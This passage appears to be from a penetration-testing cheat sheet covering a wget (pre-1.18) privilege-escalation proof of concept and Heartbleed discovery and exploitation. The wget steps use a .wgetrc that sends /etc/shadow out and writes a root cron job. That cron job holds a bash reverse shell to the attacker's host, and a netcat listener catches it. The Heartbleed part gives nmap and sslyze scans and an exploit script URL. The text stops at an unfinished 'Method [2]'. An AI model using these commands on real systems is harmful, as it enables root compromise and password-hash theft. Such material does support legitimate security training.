 The exploit works when the \[wget] version is before \[1.18]. Steps of POC **Create a \[.wgetrc] config file on your machine and type in the below content**

```
post_file = /etc/shadow 
output_document = /etc/cron.d/wget-root-shell
```

**Create and host the config file with an FTP server using python**

```
python -m pyftpdlib -p21 -w
```

This will serve the config file we created \[.wgetrc] **Modify certain variables in the exploit code** HTTP\_LISTEN\_IP = \[ip address of the machine that is making the wget requests] HTTP\_LISTEN\_PORT = \[80] FTP\_HOST = \[your-machine-ip] FTP\_PORT = \[21] ROOT\_CRON = "\* \* \* \* \* root -c 'bash -i >& /dev/tcp/your-ip/listener-port 0>&1' \n" **Start a listener on your machine**

```
nc -lvp [port-used-in-exploit]
```

**Transfer the exploit to the target machine and run it** If you couldn't run the exploit because your user can't issue port bindings then use the below command

```
authbind python exploit.py
```

#### OpenSSL

**The Heartbleed vulnerability**

One of the old vulnerabilities but it still exists these days. It's a flaw in OpenSSL before 1.0.1 and 1.0.1h. It allows attackers to read data from memory that normally is supposed to be encrypted with SSL/TLS.

**Discovery**

**Using nmap**

```
nmap -sV -sC --script vuln -p 443
```

**Using sslyze**

```
sslyze --heartbleed [domain]
```

**Exploit**

Method \[1]

```
https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py
```

Method \[2]
